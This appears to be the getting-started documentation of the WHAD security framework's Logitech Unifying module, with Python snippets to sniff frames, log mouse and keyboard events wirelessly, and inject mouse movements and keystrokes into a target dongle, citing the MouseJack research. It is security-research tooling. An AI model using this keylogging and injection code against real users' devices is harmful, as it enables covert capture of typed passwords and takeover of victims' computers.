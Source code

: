 Getting started
===============

Sniffing Logitech Unifying frames
---------------------------------

The :class:`whad.unifying.connector.sniffer.Sniffer` class implements a sniffer
detecting Logitech Unifying frames. This sniffer can be used to sniff frames but
also to identify compatible devices since Logitech Unifying protocol relies on
Nordic Semiconductor's *Enhanced ShockBurst* protocol.

The following snippet allows basic Logitech Unifying sniffing:

.. code-block:: python

    from whad.device import WhadDevice
    from whad.unifying import Sniffer

    # Instantiate a compatible device
    device = WhadDevice.create('uart:/dev/ttyUSB0')

    # Wraps device with a Logitech Unifying sniffer
    sniffer = Sniffer(device)

    # Configure scanning (loop on all channels)
    sniffer.scanning = True

    # Sniff packets
    for packet in sniffer.sniff():
        packet.show()

Any Logitech Unifying frame will be shown whatever the Logitech Unifying device is.

Sniffing mouse events
^^^^^^^^^^^^^^^^^^^^^

Logitech Unifying mouse events can be specifically sniffed and interpreted through
the dedicated class :class:`whad.unifying.connector.mouselogger.Mouselogger`.
This class inherits from :class:`whad.unifying.connector.sniffer.Sniffer` and
is able to parse any packet sent by a compatible mouse. The following code
snippet will sniff any mouse event and display the corresponding interpretation:

.. code-block:: python

    from whad.device import WhadDevice
    from whad.unifying import Mouselogger

    # Instantiate a compatible device
    device = WhadDevice.create('uart:/dev/ttyUSB0')

    # Create our mouse logger
    logger = Mouselogger(device)

    # Enable scanning
    logger.scanning = True

    # Start logging mouse event
    logger.start()

    # Display every mouse event
    for mouse_event in logger.stream():
        print(mouse_event)

This code snippet produces the following output:

.. code-block:: text

    ((24, 2), (0, 0), <ClickType.NONE: 0>)
    ((-1, -10), (0, 0), <ClickType.NONE: 0>)
    ((-6, 7), (0, 0), <ClickType.NONE: 0>)
    ((15, 1), (0, 0), <ClickType.NONE: 0>)
    ((-17, -8), (0, 0), <ClickType.NONE: 0>)
    ((18, 10), (0, 0), <ClickType.NONE: 0>)
    ((11, -2), (0, 0), <ClickType.NONE: 0>)
    ((-18, 0), (0, 0), <ClickType.NONE: 0>)
    ((-1, -3), (0, 0), <ClickType.NONE: 0>)
    ((0, 0), (0, -1), <ClickType.NONE: 0>)
    ((0, 0), (0, -1), <ClickType.NONE: 0>)
    ((0, 0), (0, 1), <ClickType.NONE: 0>)
    ((0, 0), (0, -1), <ClickType.NONE: 0>)

Sniffing keyboard events
^^^^^^^^^^^^^^^^^^^^^^^^

The same can be done with Logitech Unifying keyboards, using the dedicated
:class:`whad.unifying.connector.keylogger.Keylogger`. The following code
snippet allows sniffing and interpreting keypresses (whenever it is possible)
from an unencrypted or an encrypted keyboard:

.. code-block:: python

    from whad.device import WhadDevice
    from whad.unifying import Keylogger

    # Instantiate a compatible device
    device = WhadDevice.create('uart:/dev/ttyUSB0')

    # Create our mouse logger
    logger = Keylogger(device)

    # Enable scanning
    logger.scanning = True

    # Start logging keyboard event
    logger.start()

    for keybd_event in logger.stream():
        print(keybd_event)


Sending Logitech Unifying frames
--------------------------------

WHAD can also be used to send specific Logitech Unifying frames to a target
dongle. Historically, Logitech refused to encrypt mouse events and therefore
all Logitech Unifying mice send their data unencrypted, allowing easy injection.
Keyboards however can use an encrypted link using a pre-shared key, therefore
injecting keystrokes requires the knowledge of an encryption key when targeting
an encrypted keyboard.

However, previous research from Bastille Research demonstrated that some encrypted
keyboards are using a Logitech Unifying dongle that accepts unencrypted keystrokes
(see `https://www.bastille.net/research/vulnerabilities/mousejack`_ ). And some
mice dongles also accept these unencrypted keystrokes as well.

Sending mouse events
^^^^^^^^^^^^^^^^^^^^

WHAD's unifying implementation provides the :class:`whad.unifying.connector.mouse.Mouse`
class that allows mouse events injection. The following code snippet shows how
to use it to target a specific mouse (with a known address):

.. code-block:: python

    from whad.device import WhadDevice
    from whad.unifying import Mouse

    # Instantiate a compatible device
    device = WhadDevice.create('uart:/dev/ttyUSB0')

    # Create our mouse injector
    mouse = Mouse(device)

    # Synchronize with our target mouse
    mouse.address = '11:22:33:44:55'
    mouse.synchronize()

    # Send a fake move (deltaX=100, deltaY=100 -- bottom right)
    mouse.move(100, 100)


Sending keyboard events
^^^^^^^^^^^^^^^^^^^^^^^

WHAD provides the :class:`whad.unifying.connector.keyboard.Keyboard` class to
interact with a Logitech Unifying keyboard. This class also supports encrypted
keyboard and can be configured to send encrypted keystrokes.

The following code snippet injects some keystrokes in an unencrypted keyboard:

.. code-block:: python

    from whad.device import WhadDevice
    from whad.unifying import Keyboard

    # Instantiate a compatible device
    device = WhadDevice.create('uart:/dev/ttyUSB0')

    # Create our keyboard injector
    kbd = Keyboard(device)

    # Synchronize with our target keyboard
    kbd.address = "11:22:33:44:55"
    kbd.synchronize()

    # Send a series of keystrokes
    kbd.send_text("Hello, world !")
